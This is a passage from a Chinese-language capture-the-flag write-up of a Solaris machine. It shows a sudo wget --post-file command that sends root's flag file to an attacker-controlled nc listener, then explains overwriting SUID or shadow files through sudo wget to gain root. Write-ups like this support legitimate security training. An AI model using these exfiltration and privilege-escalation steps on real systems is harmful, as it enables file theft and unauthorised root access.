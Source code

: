 ```Bash
-bash-4.4$  sudo wget --post-file /root/root.txt http://10.10.16.11:7777/
--2023-01-11 15:26:41--  http://10.10.16.11:7777/
Connecting to 10.10.16.11:7777... connected.
HTTP request sent, awaiting response...

```

```Bash
└─# nc -nvlp  7777
listening on [any] 7777 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.10.76] 62863
POST / HTTP/1.1
User-Agent: Wget/1.19.5 (solaris2.11)
Accept: */*
Accept-Encoding: identity
Host: 10.10.16.11:7777
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

21be1463a123cfcbf1fa1241f01e592f

```



## 3、系统提权

没发现这个系统和版本有可以利用的exp

```Bash
root@sunday:~# cat /etc/os-release
NAME="Oracle Solaris"
PRETTY_NAME="Oracle Solaris 11.4"
CPE_NAME="cpe:/o:oracle:solaris:11:4"
ID=solaris
VERSION=11.4
VERSION_ID=11.4
BUILD_ID=11.4.0.0.1.15.0
HOME_URL="https://www.oracle.com/solaris/"
SUPPORT_URL="https://support.oracle.com/"

```



## 4、非通用性解法 - 覆盖ｓｕｉｄ文件/覆盖shadow文件

能进行覆盖的前提是这里的sammy用户可以使用 sudo 以root无密码执行wget, 可以利用wget -O 把任意文件覆盖成一个反弹shell或者其他内容

```Bash
-e \e[00;31m[-] SUID files:\e[00m
-r-sr-xr-x   1 root     bin       631208 Aug 17  2018 /usr/lib/ssh/ssh-keysign
-r-sr-xr-x   1 root     bin        12312 Aug 17  2018 /usr/lib/inet/mailq
-rwsr-xr-x   1 root     adm        14184 Aug 17  2018 /usr/lib/acct/accton
-r-sr-xr-x   1 root     bin       127348 Aug 17  2018 /usr/lib/fs/ufs/ufsrestore
-r-sr-xr-x   1 root     bin       118728 Aug 17  2018 /usr/lib/fs/ufs/ufsdump
-r-sr-xr-x   1 root     bin        24264 Aug 17  2018 /usr/lib/fs/smbfs/umount
-r-sr-xr-x   1 root     bin        25896 Aug 17  2018 /usr/lib/fs/smbfs/mount
-r-sr-xr-x   1 root     root        8360 Dec 19  2021 /usr/lib/vmware-tools/bin/i86/vmware-user-suid-wrapper
-r-sr-xr-x   1 root     bin        19080 Aug 17  2018 /usr/lib/utmp_update
-r-sr-xr-x   2 root     bin        24424 Aug 17  2018 /usr/bin/uptime
-rwsr-xr-x   1 root     sys        44104 Aug 17  2018 /usr/bin/atrm
-r-sr-sr-x   1 root     sys        57392 Aug 17  2018 /usr/bin/passwd
-r-sr-xr-x   1 root     bin        42232 Aug 17  2018 /usr/bin/rcp
-r-sr-xr-x   1 root     sys        52632 Aug 17  2018 /usr/bin/chkey
```